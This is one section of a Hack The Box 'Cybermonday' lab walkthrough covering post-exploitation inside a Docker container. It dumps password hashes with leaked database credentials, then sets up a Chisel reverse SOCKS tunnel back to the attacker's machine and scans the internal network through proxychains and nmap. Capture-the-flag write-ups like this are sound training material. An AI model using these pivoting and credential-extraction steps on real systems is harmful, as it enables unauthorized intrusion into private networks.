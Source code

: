 # HTB Cybermonday - Where to Now?

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[**Where to Now?**](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

As you do all your regular enumeration you'll quickly realise (if you hadn't already) that this is a [[docker|Docker]] container. Sometimes you can break out of Docker containers, but in this case it seems the vulnerabilities are all covered. One interesting directory is `/mnt`. It looks like a home directory from the host system has been mounted here. You can see the user flag is tantalisingly close, but unfortunately we can't read it at the moment. What about `authorized_keys`? Well it already exists and isn't writeable, but it is readable.
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCy9ETY9f4YGlxIufn... john@cybermonday
```

Now we have a username we can try to use for [[ssh|`ssh`]] to the host. Trying some of the basic passwords to login doesn't get us anywhere so lets continue with our Docker box for now. We have a couple of things we can do from here. We can look through the source code of the entire Cybermonday shopping app, and we can use the MySQL credentials from the `.env` file to connect to the database. The container doesn't have `mysql` installed so you'll have to use a [[php|PHP]] script if you want to do that. With this method we can extract the password hashes for the admin user and your own account:
```
1 - admin - admin@cybermonday.htb - $2y$10$6kJuFazZ...
2 - dot - ctf@dotefekts.net - $2y$10$6xMtStxbhJkEf0...
```

We can try and use `hashcat` to determine the admin password but it doesn't look like it's going to work any time soon. Looking through the code doesn't get us any particularly useful information either. So what else can we do? Well, Docker containers means a Docker network, one that we can now scan to find more services that might not have previously been accessible.
We'll need to know what the IP range of our network is, but `ifconfig` and `ip` are both not available on the container, so instead we can use:
```shell
$ hostname -I

<container ip>
```

So now how do we scan this network? Enter [Chisel](https://github.com/jpillora/chisel) a network tunnel that supports reverse proxy. Download Chisel to both your own device and the container. (As HTB machines don't have an internet connection you will need to use `python3 -m http.server` and then `curl` in the container to download Chisel from your device.) Once you have `chisel` ready to go, you can start the server on your device:
```shell
$ ./chisel server -p 8080 --reverse
```

and then connect to it from the container:
```shell
$ ./chisel client <your ip>:8080 R:socks
```

Once the container is connected, Chisel will tell you the port on your device to use to send traffic through the proxy. Now that we have the proxy, we'll need a way to allow `nmap` to utilise it. For this we'll use [Proxychains](https://github.com/haad/proxychains). You may find `proxychains` is already installed if you're using Pwnbox or Parrot, if not you should be able to obtain it via `sudo apt install proxychains`. Once installed, open `/etc/proxychains.conf`. Comment out `strict_chain` and uncomment `dynamic_chain`. You may also want to enable `quiet_mode` if you don't want your console spammed with failed connections. Comment out `proxy_dns`, and finally add the `SOCKS` proxy from `chisel` to the proxy list at the bottom of the file. Now we're ready to go.

Personally I found that running `nmap` on one IP at a time was far quicker than having it scan a range. This was likely because I've misconfigured something or used a wrong flag, but in any case you can scan the network in whatever fashion you please. As `ICMP` packets can't be sent through the `SOCKS` proxy, you'll need to disable host detection for the scan and use the `Connect` method. As such your command should look something like this:
```
$ proxychains nmap -sT <ip to scan> -Pn -oG logs/docker_1_scan -v
```

Once you've finished scanning, you'll see a number of services we're already aware of, such as Redis, MySQL, and the webhook API. One service that we haven't been aware of so far is one on port `5000`. A quick Google tells us this is likely to be a Docker registry service. 

Next: [Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
